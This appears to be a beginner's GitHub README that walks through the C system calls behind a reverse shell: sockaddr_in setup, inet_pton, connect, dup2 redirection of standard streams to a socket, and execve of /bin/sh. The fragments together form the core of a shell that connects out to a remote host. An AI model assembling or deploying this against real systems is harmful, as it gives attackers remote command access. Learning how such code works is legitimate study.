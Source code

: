 # Reverse Shell in C using socket()  

#### lil disclaimer

I'm new to C programming, and I've decided to share my learning progressing.  
Please be forgiving if there are mistakes, feel free to correct me to help me gain new knowledge.
(obviously for purprose only)  

#
`socket()` is a syscall dependent on the `<sys/socket.h>` library. To understand its functioning, we need to understand the struct components that compose it.

## struct sockaddr_in  

```c
struct sockaddr_in server_addr;
```  

Defining the variable `server_addr` of type `struct sockaddr_in` serves to represent the server's address. Memory space is created to store this structure. Its fields can then be filled with specific address information for the server:

```c
struct sockaddr_in {
   uint8_t         sin_len;       // longueur totale      
   sa_family_t     sin_family;    // famille : AF_INET    
   in_port_t       sin_port;      // le numéro de port  
   struct in_addr  sin_addr;      // l'adresse internet  
   unsigned char   sin_zero[8];   // un champ de 8 zéros  
```  

Here are all the variables defined within the struct `sockaddr_in`.  
We only use `sin_family`, `sin_port`, and `sin_addr`.  
The `sin_family` variable is set to `AF_INET` as a parameter to designate the type of address the socket will communicate with, which in this case is `IPv4`.  
The `sin_port` variable takes the port as a parameter, which is itself passed to the `htons()` function (host to network short). `htons()` converts an unsigned short integer from host byte order to network byte order (big-endian).  
Therefore, by using `AF_INET` for the `sin_family`, `sin_port` for the port, and `htons()` for converting the port to network byte order, we are configuring the server address to be an `IPv4` address with the specified port.

## inet_pton()  

```c
inet_pton(AF_INET, IP, &(server_addr.sin_addr));
```  

`inet_pton()` is used to convert an `IPv4` or `IPv6` address (in basic string format) into a binary representation used by sockets. It takes the `AF` (Address Family) as a parameter, converts the `IP` address (currently in string format), and stores it in the `sin_addr` variable of the `server_addr` struct.  

## connect()  

```c
connect(sockfd, (struct sockaddr *)&server_addr, sizeof(server_addr));
```  

`connect()` establishes a connection between the client socket (`sockfd`) and the server socket (`server_addr`).  
`(struct sockaddr *)&server_addr` converts the pointer `server_addr` into a pointer of type `struct sockaddr *`.  
We learn from the function prototype in its man page that `connect()` expects the second argument to be a pointer to `struct sockaddr`.  
`sizeof(server_addr)` specifies the size of the `server_addr` struct in bytes, allowing `connect()` to know the size of the structure to perform the connection.  

## dup2()  

```c
    dup2(sockfd, 0);
    dup2(sockfd, 1);
    dup2(sockfd, 2);
```

`dup2()` duplicates an existing file descriptor to another file descriptor. It takes the parent file descriptor and the child file descriptor as arguments.  
`stdin` (0), `stdout` (1), and std`err (2) are redirected to the file descriptor of `sockfd`.  
In essence, any input retrieved from `stdin` will be read from the `socket`, and any output written to `stdout` and `stderr` will be sent to the server via the network connection.  

## execve()

```c
execve("/bin/sh", 0, 0);
```  

`execve()` is a syscall that allows executing a new program from a specified executable file (in this case, `/bin/sh`).  
From its man page, we learn that `execve()` takes the second argument as a char pointer to an array of arguments and the third argument as a char pointer to the environment in which the program is launched.  
Since those parameters are not used in our code snippet, they are defined as `0`.  
In this context, it executes the `/bin/sh` program, launching a shell process in the current execution environment.

## close()


```c
close(sockfd);
```
`close()` is used to close a file descriptor. Here, `close()` is called to release the allocated resources and terminate the network connection.    

## Resources
https://broux.developpez.com/articles/c/sockets/ (a complete french documentation)  
https://man.archlinux.org/man/  
https://man7.org/linux/man-pages/  
